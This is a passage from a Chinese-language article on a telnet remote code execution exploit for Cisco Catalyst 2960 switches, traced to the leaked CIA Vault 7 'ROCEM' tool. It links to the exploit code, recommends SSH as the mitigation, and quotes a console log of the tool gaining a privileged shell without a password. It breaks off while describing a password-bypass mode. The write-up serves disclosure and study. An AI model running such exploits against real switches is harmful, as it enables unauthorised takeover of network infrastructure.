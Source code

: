 **前言**

您的Catalyst交换机上是否启用了telnet？ 如果是的话，那就要小心了。本文将向读者介绍针对配备了最新固件的Catalyst 2960交换机的远程代码执行漏洞的概念验证攻击技术。具体的漏洞利用代码可以从[这里](https://github.com/artkond/cisco-rce/)下载。以下是对2017年3月7日中情局泄露的机密文件中的一个安全漏洞的利用开发流程的详细说明，此外，思科公司于2017年3月17日也公开披露了该漏洞的详细情况。但是，截止撰写本文时，仍然没有可用的补丁。尽管如此，还是有一个补救措施的，那就是禁用telnet，并代之以使用SSH。

<br>

**CIA泄漏的Vault 7 **

2017年3月7日，中央情报局的一系列文件被泄露，并被公布到维基解密上。其中，一份文件中涉及了一个影响多款Cisco交换机的远程代码执行漏洞。这个漏洞在泄露的文档中的代号为ROCEM。虽然提到的技术细节很少，但仍然引起了人们的注意。

Vault 7的文档暴露了实际的漏洞利用代码的测试过程，但是没有泄露漏洞利用的源代码。根据泄露的内容来看，有两点格外引入注目：该工具可以以交互模式或设置模式启动。其中，交互模式通过telnet发送有效载荷，并能够在同一telnet连接的上下文中立即向攻击者提供命令shell。下面的内容引自该[文档](https://wikileaks.org/ciav7p1/cms/page_23134373.html)：



```
Started ROCEM interactive session - successful: 
root@debian:/home/user1/ops/adverse/adverse-1r/rocem# ./rocem_c3560-ipbase-mz.122-35.SE5.py -i 192.168.0.254
[+] Validating data/interactive.bin
[+] Validating data/set.bin
[+] Validating data/transfer.bin
[+] Validating data/unset.bin
****************************************
Image: c3560-ipbase-mz.122-35.SE5
Host: 192.168.0.254
Action: Interactive
****************************************
Proceed? (y/n)y
Trying 127.0.0.1...
[*] Attempting connection to host 192.168.0.254:23
Connected to 127.0.0.1.
Escape character is '^]'.
[+] Connection established
[*] Starting interactive session
User Access Verification
Password:
MLS-Sth#
MLS-Sth# show priv
Current privilege level is 15
MLS-Sth#show users
Line User Host(s) Idle Location
* 1 vty 0 idle 00:00:00 192.168.221.40
Interface User Mode Idle Peer Address
MLS-Sth#exit
Connection closed by foreign host.
```

设置模式。修改交换机内存，以便将来可以在无需密码的情况下建立telnet连接。下面的内容引自该[文档](https://wikileaks.org/ciav7p1/cms/page_17760327.html)： 

